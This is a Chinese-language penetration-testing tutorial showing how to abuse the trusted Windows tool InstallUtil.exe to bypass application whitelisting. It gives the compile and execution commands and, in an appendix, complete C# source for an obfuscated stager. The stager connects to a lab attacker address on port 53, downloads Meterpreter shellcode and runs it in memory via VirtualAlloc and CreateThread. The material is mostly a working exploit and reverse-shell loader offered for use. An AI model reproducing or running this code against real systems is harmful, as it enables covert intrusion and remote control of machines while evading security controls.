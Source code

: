 
### Installutil简介：

Installer工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与System.Configuration.Install命名空间中的类一起使用。
具体参考：Windows Installer部署
https://docs.microsoft.com/zh-cn/previous-versions/2kt85ked(v=vs.120)

**说明：**Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

基于白名单installutil.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](media/dc56fe8b83b82c65150ac6715d296968.jpg)

### 靶机执行：

### 靶机编译：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /keyfile:C:\Users\John\Desktop\installutil.snk /unsafe C:\Users\John\Desktop\installutil.cs
```
![](media/86a0962a09b6e1f14b90d523abc1e0f8.jpg)

**payload：**  
Micropoor.exe  
![](media/380382cb9c51c0a16a3d13b0b023985a.jpg)

**靶机执行：**
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```
![](media/8e03a632f426c981eaec67817eea1469.jpg)

### 附录：Micropoor.cs
**注：x64 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.Configuration.Install; using System.Windows.Forms;

public class GQLBigHgUniLuVx {

public static void Main()

{

while(true)

{{ MessageBox.Show("doge"); Console.ReadLine();}}

}

} 

[System.ComponentModel.RunInstaller(true)]

public class esxWUYUTWShqW : System.Configuration.Install.Installer

{

public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)

{

jkmhGrfzsKQeCG.LCIUtRN();

}

} 

public class jkmhGrfzsKQeCG

{ [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);

static byte[] ErlgHH(string ZwznjBJY, int KsMEeo) {

IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);

Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }

catch { return null;}

byte[] UmquAHRnhhpuE = new byte[4];

XXxIoIXNCle.Receive(UmquAHRnhhpuE, 4, 0);

int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE, 0);

byte[] qaYyFq = new byte[kFVRSNnpj + 5];

int SRCDELibA = 0;

while (SRCDELibA < kFVRSNnpj)

{ SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA + 5, (kFVRSNnpj ‐ SRCDELibA) < 4096 ? (kFVRSNnpj ‐ SRCDELibA) : 4096, 0);}

byte[] TvvzOgPLqwcFFv = BitConverter.GetBytes((int)XXxIoIXNCle.Handle);

Array.Copy(TvvzOgPLqwcFFv, 0, qaYyFq, 1, 4); qaYyFq[0] = 0xBF;

return qaYyFq;}

static void cmMtjerv(byte[] HEHUjJhkrNS) {

if (HEHUjJhkrNS != null) {

UInt32 WcpKfU = VirtualAlloc(0, (UInt32)HEHUjJhkrNS.Length, 0x1000, 0x40);

Marshal.Copy(HEHUjJhkrNS, 0, (IntPtr)(WcpKfU), HEHUjJhkrNS.Length);

IntPtr UhxtIFnlOQatrk = IntPtr.Zero;

UInt32 wdjYKFDCCf = 0;

IntPtr XVYcQxpp = IntPtr.Zero;

UhxtIFnlOQatrk = CreateThread(0, 0, WcpKfU, XVYcQxpp, 0, ref wdjYKFDCCf);

WaitForSingleObject(UhxtIFnlOQatrk, 0xFFFFFFFF); }} 

public static void LCIUtRN() {

byte[] IBtCWU = null; IBtCWU = ErlgHH("192.168.1.4", 53);

cmMtjerv(IBtCWU);

} }


```

>installutil.snk 596B  

>   Micropoor
